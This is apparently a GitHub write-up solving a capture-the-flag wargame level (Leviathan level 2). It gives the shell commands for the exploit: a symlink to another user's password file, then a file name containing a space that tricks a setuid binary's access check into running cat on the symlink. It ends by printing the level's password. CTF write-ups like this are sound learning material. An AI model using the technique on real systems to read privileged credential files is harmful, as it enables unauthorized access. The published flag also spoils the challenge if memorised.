

# leviathan level2 Solution

we will create link file for the password file in the name "link"
`ln -sf /etc/leviathan_pass/leviathan3 link`.
then, we will create file which named "link bla".
`touch "link bla"`
and then, we'll execute the printfile with our file:
`~/printfile "link bla"`.
also, we need to change the permission of our directory, that the user leviathan3 will be able to access files.
`chmod +x .`

the exploit based on the fact that the access function returns 0 for the file "link bla", because it's fine.

however, it than execute `/bin/cat link file`, which divided to 2 different commands.

**Flag:** ***`f0n8h2iWLP`*** 
